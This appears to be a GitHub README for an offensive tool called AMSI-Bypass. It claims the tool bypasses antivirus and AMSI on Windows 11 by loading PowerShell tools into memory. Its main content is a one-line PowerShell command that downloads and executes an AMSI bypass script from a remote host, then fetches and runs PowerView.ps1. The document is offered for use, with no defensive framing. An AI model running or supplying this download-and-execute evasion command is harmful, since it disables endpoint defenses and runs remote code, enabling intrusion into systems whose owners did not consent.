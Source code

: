 # AMSI-Bypass

Here you can upload your Powershell tool into the memory and bypass AV + AMSI  - Tested on latest Windows 11.

# Command:
```
iex(New-Object Net.WebClient).DownloadString('http://10.10.10.10/AMSI-Bypass.ps1');iex(New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerView.ps1')
```


# Credits: 
@S3cur3Th1sSh1t
